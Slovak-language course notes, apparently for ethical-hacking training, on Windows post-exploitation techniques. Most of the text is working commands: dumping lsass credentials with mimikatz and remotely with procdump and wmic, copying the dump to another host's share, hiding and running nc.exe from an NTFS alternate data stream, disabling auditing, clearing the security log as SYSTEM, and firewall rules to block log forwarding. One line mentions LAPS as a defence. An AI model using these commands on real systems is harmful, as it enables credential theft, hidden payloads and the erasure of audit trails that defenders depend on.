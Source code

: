 ak je prihlaseny iny uzivatel na worstationne  
spravime dump z lsass.exe  
cez mimikatz  
sekurlsa::minidump e:\lsass.dmp  
sekurlsa::logonpasswords  

vzdialene:  
copy c:\Users\Public\Desktop\pth\procdump.exe \\10.0.0.10\admin$  
wmnic /node:"10.0.0.10" path win32_process call create "procdump -accepteula -ma lsass.exe c:\8.dmp"  
copy \\10.0.0.10\c$\8.dmp \\10.0.0.2\ceh-tools

# Domenove účty

PAM alebo vzdy loaklny admin pre kazdy pocitac s inym heslom  
laps - stiahnut z microsoftu

# SCHOVAVANIE DAT

## NTFS streamy

alternativne streamy, nezobrazuju sa jednoducho vo velkosti suboru, dir, ...  
streamy vypise rekurzivny dir: dir /r  
standartne napriklad subory stiahnute z internetu prehliadac vlozi do suboru :Zone.Identifier

```
notepad maly.txt
notepad maly.txt:tajne.txt
type g:\nc.exe > c:\maly.txt:Zone.Identifier
wmic process call create c:\maly.txt:Zone.Identifier
```

powershell verzia
```
Get-Content G:\nc.exe -raw | Set-Content E:\nieco.txt -Stream Zone.Identifier
```

## STEGANOGRAPHY

schovavanie zaencryptovanych dat napr. do least significant bitov do obrazkov

## Mazanie logov

logy posebe nemazať - mazanie je podozrivé, ak si to doteraz nikto nevšimol nie je to treba logy sa časom premazu samé

- secpol.msc

keď už:  
vypnutie audiovania pred mazanim: `auditpol /set /category:* /success:disable /failure:disable`  
mazanie: `sc.exe create ViktorCistic binpath= "wevtutil cl security && sc.exe start ViktorCistic"` - mazanie prebehne pod systemom nie uživatelom  
pripadne zakazat odosielanie logov vo firewalle (allow+authenc je nenapadnejsie nez zakazat):  
`netsh adv fir add rule name=nocom program=calc.exe dir=out action=allow security=authenc`  
`netsh adv fir add rule name=compull protocol=tcp port=5985 dir=in action=allow security=authenc`  
